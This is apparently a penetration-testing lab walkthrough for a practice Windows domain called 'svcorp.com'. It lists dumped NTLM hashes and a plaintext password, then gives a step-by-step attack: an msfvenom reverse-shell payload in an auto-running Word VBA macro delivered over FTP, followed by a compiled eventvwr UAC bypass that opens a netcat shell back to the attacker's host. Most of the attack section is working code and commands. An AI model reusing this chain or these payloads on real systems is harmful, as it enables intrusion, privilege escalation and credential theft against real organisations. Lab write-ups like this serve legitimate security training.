# svcorp.com
## Summary
### System Information
```text
IP: 10.11.1.20
OS: Windows
Hostname: sv-dc01
```

```text
IP: 10.11.1.21
OS: Windows
Hostname: sv-file01
```

```text
IP: 10.11.1.22
OS: Windows 10 Pro N 14393
Hostname: svclient08
```

```text
IP: 10.11.1.24
OS: Windows 10 Pro N 14393
Hostname: svclient73
```

### Credentials

#### svclient08
```text
alice:ThisIsTheUsersPassword01
```

### Hashes

#### sv-dc01
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:63485d30576a1a741106e3e800053b34:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:22ec2cc749ad47431602a8d2ba0954e9:::
svcorp.com\alice:1103:aad3b435b51404eeaad3b435b51404ee:7f004ce6b8f7b2a3b6c477806799b9c0:::
svcorp.com\pedro:1104:aad3b435b51404eeaad3b435b51404ee:dd5cc92b3d16f62b4f62584c11b8ab59:::
svcorp.com\mike:1105:aad3b435b51404eeaad3b435b51404ee:a3a6057ff6f7432ff1fda41845b6eed1:::
svcorp.com\bob:1106:aad3b435b51404eeaad3b435b51404ee:f6ccd143b71de34a5cc53638b2c270bd:::
svcorp.com\ralph:1107:aad3b435b51404eeaad3b435b51404ee:49a6e361f5c4cf3d3f0f4ed18a7c7cc6:::
svcorp.com\bethany:1108:aad3b435b51404eeaad3b435b51404ee:ba2a79703fe5dc592993527e4a621b01:::
svcorp.com\bruce:1109:aad3b435b51404eeaad3b435b51404ee:6d8de9fd5c28c986616a3971fd6d008a:::
svcorp.com\sherlock:1110:aad3b435b51404eeaad3b435b51404ee:515153157d9a1f1aa71ce523e68927e2:::
svcorp.com\nicky:1111:aad3b435b51404eeaad3b435b51404ee:9360b466f42f8f5ee0528ea6103ce5c5:::
svcorp.com\jeff:1112:aad3b435b51404eeaad3b435b51404ee:df5421cf32d2795ed7070d3f775a62b8:::
svcorp.com\joe:1113:aad3b435b51404eeaad3b435b51404ee:d0195f05845fb7b2985b50b539422ae2:::
svcorp.com\kevin:1114:aad3b435b51404eeaad3b435b51404ee:8bf3e9e25193a1fa3711d221b3e36d5b:::
svcorp.com\cory:1115:aad3b435b51404eeaad3b435b51404ee:d3b2db873634a8729ec270a32a0a0c08:::
svcorp.com\nina:1116:aad3b435b51404eeaad3b435b51404ee:38448060b5568f5ef13ff488fcd801d4:::
svcorp.com\brett:1117:aad3b435b51404eeaad3b435b51404ee:ab955e6fccb916e527731b14a6786d6c:::
svcorp.com\carol:1118:aad3b435b51404eeaad3b435b51404ee:6a7bcd585fbd6a961ee744086359b657:::
svcorp.com\james:1119:aad3b435b51404eeaad3b435b51404ee:dc58723a2d4f9097c9756084b8925677:::
svcorp.com\john:1120:aad3b435b51404eeaad3b435b51404ee:d47bdfa9c514cf200ceadc85dd371b6b:::
svcorp.com\pete:1121:aad3b435b51404eeaad3b435b51404ee:0f951bc4fdc5dfcd148161420b9c6207:::
svcorp.com\adam:1122:aad3b435b51404eeaad3b435b51404ee:167ea783d26c2ece533c732576408884:::
svcorp.com\evan:1123:aad3b435b51404eeaad3b435b51404ee:a34e985fa9fd7d3628c62400507fca79:::
svcorp.com\tris:1124:aad3b435b51404eeaad3b435b51404ee:08df3c73ded940e1f2bcf5eea4b8dbf6:::
svcorp.com\sqlServer:1125:aad3b435b51404eeaad3b435b51404ee:37669db5de2a72d32572a80f82464b12:::
svcorp.com\HP3service:1126:aad3b435b51404eeaad3b435b51404ee:979859d675f948bd640f75d112c86512:::
svcorp.com\extmailservice:1127:aad3b435b51404eeaad3b435b51404ee:7c27d613cd997dd1f511ba8a8a1cb787:::
```

#### sv-file01
```text
Administrator:f4ada15ad8818bf28967bf80ec3e5d9d
tris:08df3c73ded940e1f2bcf5eea4b8dbf6
```

#### svclient08
```text
Administrator:ee0c207898a5bccc01f38115019ca2fb
alice:7f004ce6b8f7b2a3b6c477806799b9c0
```

#### svclient73
```text
Administrator:ee0c207898a5bccc01f38115019ca2fb
pete:0f951bc4fdc5dfcd148161420b9c6207
```

### Ports
#### sv-dc01
```text
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-04 06:07:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: svcorp.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: svcorp.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

#### sv-file01
```text
21/tcp   open  ftp           FileZilla ftpd
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

#### svclient08
```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro N 14393 microsoft-ds (workgroup: svcorp)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

#### svclient73
```text
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro N 14393 microsoft-ds (workgroup: svcorp)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

***

## Enumeration
### NMAP

#### sv-dc01
```bash
nmap -sC -sV -v -T4 -oN scans/nmap_sv-dc01.txt 10.11.1.20
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-04 06:07:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: svcorp.com0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: svcorp.com0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-08-04T06:07:44+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sv-dc01.svcorp.com
| Issuer: commonName=sv-dc01.svcorp.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-03T04:21:05
| Not valid after:  2023-02-02T04:21:05
| MD5:   70b2 c26b ead7 b690 ccab ca64 0de5 3806
|_SHA-1: f0a6 f480 b0d2 b9a8 19b0 20c8 1a74 993c 4f2b 5014
| rdp-ntlm-info: 
|   Target_Name: svcorp
|   NetBIOS_Domain_Name: svcorp
|   NetBIOS_Computer_Name: SV-DC01
|   DNS_Domain_Name: svcorp.com
|   DNS_Computer_Name: sv-dc01.svcorp.com
|   DNS_Tree_Name: svcorp.com
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-04T06:07:35+00:00
Service Info: Host: SV-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### sv-file01
```bash
nmap -sC -sV -v -T4 -oN scans/nmap_sv-file01.txt 10.11.1.21
```

```text
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: SV Corporation Editorial Process
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: svcorp
|   NetBIOS_Domain_Name: svcorp
|   NetBIOS_Computer_Name: SV-FILE01
|   DNS_Domain_Name: svcorp.com
|   DNS_Computer_Name: sv-file01.svcorp.com
|   DNS_Tree_Name: svcorp.com
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-04T06:09:48+00:00
| ssl-cert: Subject: commonName=sv-file01.svcorp.com
| Issuer: commonName=sv-file01.svcorp.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-03T04:22:12
| Not valid after:  2023-02-02T04:22:12
| MD5:   685b 0379 a13e 6a4c a9e7 c3b2 35f8 e68a
|_SHA-1: 6aa5 64b7 b5ac e8a9 82c9 4592 c624 403a b1f6 4420
|_ssl-date: 2022-08-04T06:09:57+00:00; -1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### svclient08
```bash
nmap -sC -sV -v -T4 -oN scans/nmap_svclient08.txt 10.11.1.22
```

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro N 14393 microsoft-ds (workgroup: svcorp)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: svcorp
|   NetBIOS_Domain_Name: svcorp
|   NetBIOS_Computer_Name: SVCLIENT08
|   DNS_Domain_Name: svcorp.com
|   DNS_Computer_Name: svclient08.svcorp.com
|   DNS_Tree_Name: svcorp.com
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-04T06:11:43+00:00
| ssl-cert: Subject: commonName=svclient08.svcorp.com
| Issuer: commonName=svclient08.svcorp.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-03T04:22:20
| Not valid after:  2023-02-02T04:22:20
| MD5:   7bae d880 c919 6f4c 389b 614d e31f 080b
|_SHA-1: ee14 9d18 aef2 eeb5 dd45 cb27 ddb8 35ac 2349 cd34
|_ssl-date: 2022-08-04T06:11:57+00:00; -1s from scanner time.
Service Info: Host: SVCLIENT08; OS: Windows; CPE: cpe:/o:microsoft:windows
```

#### svclient73
```bash
nmap -sC -sV -v -T4 -oN scans/nmap_svclient73.txt 10.11.1.24
```

```text
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro N 14393 microsoft-ds (workgroup: svcorp)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: svcorp
|   NetBIOS_Domain_Name: svcorp
|   NetBIOS_Computer_Name: SVCLIENT73
|   DNS_Domain_Name: svcorp.com
|   DNS_Computer_Name: svclient73.svcorp.com
|   DNS_Tree_Name: svcorp.com
|   Product_Version: 10.0.14393
|_  System_Time: 2022-08-04T06:15:13+00:00
| ssl-cert: Subject: commonName=svclient73.svcorp.com
| Issuer: commonName=svclient73.svcorp.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-03T04:22:13
| Not valid after:  2023-02-02T04:22:13
| MD5:   e5a8 0691 c1b3 e06d 0f28 4209 c329 42a8
|_SHA-1: 4df0 4116 6b39 a8d9 067d 69db 8f8c ba9a a2df 66f2
|_ssl-date: 2022-08-04T06:15:27+00:00; -1s from scanner time.
Service Info: Host: SVCLIENT73; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Website

There's a website on port 80 hosted on the `sv-file01` machine.

  

From the website we can identify credentials to the FTP server. It also mentions that we can upload `.doc` or `.docx` files.

```text
editor:MyEditWork
```

Based on the file type and knowing that editors will open the documents, we can try using a malicious macro.

## Shell on svclient08

### Malicious Macro

We first need generate our shellcode using `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=4444 -f vbapplication > macro.vba
```

  

We will use the following VBA macro code along with the shellcode we just generated.

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long

  buf = Array()

  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter

  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Next we need to add the macro to a Word document. Go to the `View` tab, then `Macros` and `View Macros`.

  

Next select the current document using the `Macros in` combobox and enter a macro name. Then select `Create`.

  

Paste in the macro vba code from above and replace `buf = Array()` with the contents of the macro shellcode generated using `msfvenom`.

  

Go to save the document, select a location and make sure the document is saved as a `Word 97-2003 Document`. This will save the document as `.doc` which is allowed to upload via FTP.

  

Setup a reverse shell listener using `netcat`.

```bash
rlwrap nc -lnvp 9001
```

Then login to the FTP server and upload the file.

```bash
ftp editor@10.11.1.21

binary
put Macro.doc
```

  

After waiting about 5 minutes we should get a shell.

  

## Privilege Escalation

### Enumerating svclient08

```powershell
hostname && whoami && ipconfig
```

We're on the `svclient08` machine, probably the user who opened the Word document executing our malicious macro.

  

Enumerate the target's users.

```powershell
net users && dir c:\users
```



Let's look into user `tris`.

```powershell
net user tris /domain
```

  

They are part of the `Domain Admins` group. This is a user we can potentially pivot to later. 

```powershell
whoami /all
```

  

We can see that we are part of the `BUILTIN\Administrators` and `Mandatory Label\Medium Mandatory Level` groups. Because we are part of the `Medium Mandatory` level we can't run certain tools and need to bypass UAC to get on `High Mandatory` level, from there we can become SYSTEM.

```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

  

Two registry keys of interest.

```text
EnableLUA                REG_DWORD    0x1
PromptOnSecureDesktop    REG_DWORD    0x1
```

`EnableLUA` tells whether UAC is enabled, `0` is disabled, `1` is enabled. If this was set to `0` we could just use `psexec` to elevate to SYSTEM.

We need to ensure `eventvwr.exe` exists and auto elevate is set to high integrity.

```powershell
where /r c:\windows eventvwr.exe
```

  

To check auto elevate we need to check the `eventvwr.exe` auto elevate setting. We need to use `strings64.exe` to find the setting within the executable. We'll use an smb share to transfer files.

```bash
impacket-smbserver -smb2support kali .
```

Add the smb share to the target.

```powershell
net use * \\192.168.119.194\kali
```

  

Download `strings64.exe`.

```bash
wget https://github.com/k4sth4/UAC-bypass/raw/main/strings64.exe
```

Get `autoelevate` settings.

```powershell
z:\strings64.exe -accepteula c:\windows\system32\eventvwr.exe | findstr /i autoelevate
```

  

### UAC Bypass

Download `eventvwr-bypassuac.c`.

```bash
wget https://raw.githubusercontent.com/k4sth4/UAC-bypass/main/eventvwr-bypassuac.c
```

Open the file and make a modification to line `68`.

```c
strcat(curPath, "\\nc.exe 192.168.119.194 9002 -e cmd.exe");
```

Use `x86_64-w64-mingw32-gcc` to compile into an executable.

```bash
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac.exe
```

  

Make sure that both `nc.exe` and `eventvwr-bypassuac.exe` are in the same directory.

  

Start a listener on another port.

```bash
rlwrap nc -lnvp 9002
```

Then execute `eventvwr-bypassuac.exe`.

```powershell
.\eventvwr-bypass.exe
```

And we get our shell.

  

If we check our permissions, we can see that we are now a part of the `High Mandatory Label` group.

